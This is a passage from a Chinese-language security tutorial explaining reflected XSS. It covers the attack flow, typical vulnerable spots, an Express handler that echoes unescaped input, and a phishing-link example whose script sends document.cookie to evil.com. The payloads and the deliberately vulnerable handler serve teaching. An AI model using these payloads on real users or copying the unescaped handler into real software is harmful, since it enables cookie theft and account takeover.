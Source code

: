 #### 攻击流程

```
1. 攻击者构造含恶意代码的 URL
   ↓
2. 诱导用户点击该 URL
   ↓
3. 服务器将 URL 中的恶意代码"反射"回页面
   ↓
4. 浏览器执行代码
```

#### 典型场景

- 🔍 搜索框
- 📄 URL 参数传值（分页、详情页 ID）
- ❌ 登录失败提示

#### 攻击示例

```javascript
// 攻击者构造恶意 URL
https://example.com/search?keyword=<script>alert(document.cookie)</script>

// 后端代码（危险！）
app.get('/search', (req, res) => {
  const keyword = req.query.keyword;
  // 直接将用户输入返回到页面
  res.send(`<h1>搜索结果：${keyword}</h1>`);
});

// 页面渲染后
<h1>搜索结果：<script>alert(document.cookie)</script></h1>

// 浏览器会执行 script 标签中的代码
```

#### 真实案例

**案例：钓鱼链接**

```
攻击者发送邮件：
"您的账号出现异常，请点击链接验证：
https://bank.com/verify?msg=<script>document.location='https://evil.com/steal?cookie='+document.cookie</script>"

用户点击后：
1. 恶意脚本执行
2. Cookie 被发送到攻击者服务器
3. 攻击者使用 Cookie 登录用户账号
```

#### 危害特点
